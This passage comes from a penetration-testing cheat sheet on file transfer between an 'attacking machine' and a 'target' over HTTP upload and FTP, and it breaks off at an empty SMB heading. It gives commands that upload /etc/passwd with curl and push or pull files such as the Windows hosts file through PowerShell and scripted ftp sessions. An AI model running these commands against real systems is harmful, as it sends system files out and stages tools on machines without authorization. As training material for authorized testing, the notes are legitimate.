 - We might need to remove nginx default config if port 80 is busy `sudo rm /etc/nginx/sites-enabled/default`

- Upload file with cURL `curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt`

## FTP

### From attack machine to target

#### Attacking machine

- `sudo pip3 install pyftpdlib`
- `python3 -m pyftpdlib -p 21 --write`

#### Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file
- `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')` with powershell
- Create a Command File for the FTP Client and Download the Target File

```dos
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

#### Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file
- `curl --user anonymous:anonymous -o docker-toolbox.exe ftp://10.10.10.236/docker-toolbox.exe`
- `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')` with powershell
- Create a Command File for the FTP Client to Upload a File

```dos
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

## SMB

